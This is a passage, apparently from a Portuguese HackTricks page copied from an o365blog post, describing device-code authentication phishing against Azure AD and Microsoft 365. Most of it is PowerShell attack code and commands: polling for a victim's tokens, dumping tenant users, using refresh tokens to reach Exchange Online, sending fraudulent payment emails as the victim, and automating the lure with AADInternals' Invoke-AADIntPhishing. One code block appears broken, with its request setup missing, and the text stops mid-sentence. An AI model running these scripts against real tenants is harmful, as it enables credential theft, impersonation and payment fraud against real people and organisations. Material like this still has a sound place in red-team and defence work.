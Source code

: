 # Az - Phishing de Autenticação de Código de Dispositivo

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

**Este post foi copiado de** [**https://o365blog.com/post/phishing/**](https://o365blog.com/post/phishing/)

### O que é autenticação de código de dispositivo <a href="#what-is-device-code-authentication" id="what-is-device-code-authentication"></a>

De acordo com a [documentação](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-device-code) da Microsoft, a autenticação de código de dispositivo:

> permite que os usuários façam login em dispositivos com restrição de entrada, como uma smart TV, dispositivo IoT ou impressora. Para habilitar esse fluxo, o dispositivo faz com que o usuário visite uma página da web em seu navegador em outro dispositivo para fazer login. Depois que o usuário faz login, o dispositivo pode obter tokens de acesso e tokens de atualização conforme necessário.

O processo é o seguinte:

1. Um usuário inicia um aplicativo que suporta o fluxo de código de dispositivo em um dispositivo
2. O aplicativo se conecta ao endpoint /devicecode do Azure AD e envia **client\_id** e **resource**
3. O Azure AD envia de volta **device\_code**, **user\_code** e **verification\_url**
4. O dispositivo mostra o **verification\_url** (hxxps://microsoft.com/devicelogin) e o **user\_code** para o usuário
5. O usuário abre um navegador e navega até **verification\_url**, fornece o **user\_code** quando solicitado e faz login
6. O dispositivo consulta o Azure AD até que, após o login bem-sucedido, ele obtenha **access\_token** e **refresh\_token**

![Fluxo de Código de Dispositivo](https://o365blog.com/images/posts/phishing\_5.png)

### Phishing com autenticação de código de dispositivo <a href="#phishing-with-device-code-authentication" id="phishing-with-device-code-authentication"></a>

A ideia básica de utilizar a autenticação de código de dispositivo para phishing é a seguinte.

1. Um atacante se conecta ao endpoint /devicecode e envia **client\_id** e **resource**
2. Após receber **verification\_uri** e **user\_code**, cria um e-mail contendo um link para **verification\_uri** e **user\_code** e envia para a vítima.
3. A vítima clica no link, fornece o código e conclui o login.
4. O atacante recebe **access\_token** e **refresh\_token** e agora pode imitar a vítima.

#### 1. Conectando-se ao endpoint /devicecode <a href="#1-connecting-to-devicecode-endpoint" id="1-connecting-to-devicecode-endpoint"></a>

O primeiro passo é fazer um POST http para o endpoint de código de dispositivo do Azure AD:

```
 https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0
```
# Loop enquanto a autorização está pendente ou até que o tempo limite seja excedido

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "O tempo limite foi atingido"
		return
	}
				
	# Tenta obter a resposta. Dará 40x enquanto estiver pendente, então precisamos tentar e capturar

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# Este é o fluxo normal, sempre retorna 40x a menos que seja bem-sucedido

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# Não está pendente, então este é um erro real

			Write-Error $details.error_description
			return
		}
	}

	# Se obtivermos uma resposta, tudo bem!

	if($response)
	{
		break # Saia do loop

	}
}
```

Agora podemos usar o token de acesso para se passar pela vítima:

```powershell
# Despeje os usuários do locatário em csv

Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

Também podemos obter tokens de acesso para outros serviços usando o token de atualização, desde que o client\_id permaneça o mesmo.

O seguinte script obtém um token de acesso para o Exchange Online.

```powershell
# Crie o corpo para obter o token de acesso para o Exchange Online

$body=@{
	"client_id" =     "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" =    "refresh_token"
	"scope" =         "openid"
	"resource" =      "https://outlook.office365.com"
	"refresh_token" = $response.refresh_token
}

$EXOresponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body $body -ErrorAction SilentlyContinue

# Envie um e-mail como a vítima

Send-AADIntOutlookMessage -AccessToken $EXOresponse.access_token -Recipient "outra.vitima@alvo.org" -Subject "Pagamento em atraso" -Message "Pague isso <h2>o mais rápido possível!</h2>"
```

## Usando o AADInternals para phishing <a href="#using-aadinternals-for-phishing" id="using-aadinternals-for-phishing"></a>

O AADInternals (v0.4.4 ou posterior) tem uma função [Invoke-AADIntPhishing](https://o365blog.com/aadinternals/#invoke-aadintphishing) que automatiza o processo de phishing.

A mensagem de phishing pode ser personalizada, a mensagem padrão é a seguinte:

```
'<div>Olá!<br/>Esta é uma mensagem enviada a você por alguém que está usando a função de phishing do <a href="https://o365blog.com/aadinternals">AADInternals</a>. <br/><br/>Aqui está um <a href="{1}">link</a> que você <b>não deve clicar</b>.<br/><br/>Se ainda assim decidir fazê-lo, forneça o seguinte código quando solicitado: <b>{0}</b>.</div>'
```

Mensagem padrão no e-mail:\
![E-mail de phishing](https://o365blog.com/images/posts/phishing\_11.png)

Mensagem padrão no Teams:\
![Mensagem de phishing](https://o365blog.com/images/posts/phishing\_12.png)

### E-mail <a href="#email" id="email"></a>

O seguinte exemplo envia um e-mail de phishing usando uma mensagem personalizada. Os tokens são salvos no cache.

```powershell
# Crie uma mensagem personalizada

$message = '<html>Olá!<br/>Aqui está o link para o <a href="{1}">documento</a>. Use o seguinte código para acessar: <b>{0}</b>.</html>'

# Envie um e-mail de phishing para os destinatários usando uma mensagem personalizada e salve os tokens no cache

Invoke-AADPhishing -Recipients "vitima@empresa.com","vitima2@empresa.com" -Subject "Johnny compartilhou um documento com você" -Sender "Johnny Carson <jc@algumlugar.com>" -SMTPServer smtp.meuservidor.local -Message $message -SaveToCache 
```

```
Código: CKDZ2BURF
E-mail enviado para: vitima@empresa.com
...
Token de acesso recebido para william.victim@company.com
```

E agora podemos enviar e-mails como a vítima usando o token armazenado em cache.

```powershell
# Envie um e-mail como a vítima

Send-AADIntOutlookMessage -Recipient "outra.vitima@alvo.org" -Subject "Pagamento em atraso" -Message "Pague isso <h2>o mais rápido possível!</h2>"
```

Também podemos enviar uma mensagem do Teams para tornar o pedido de pagamento
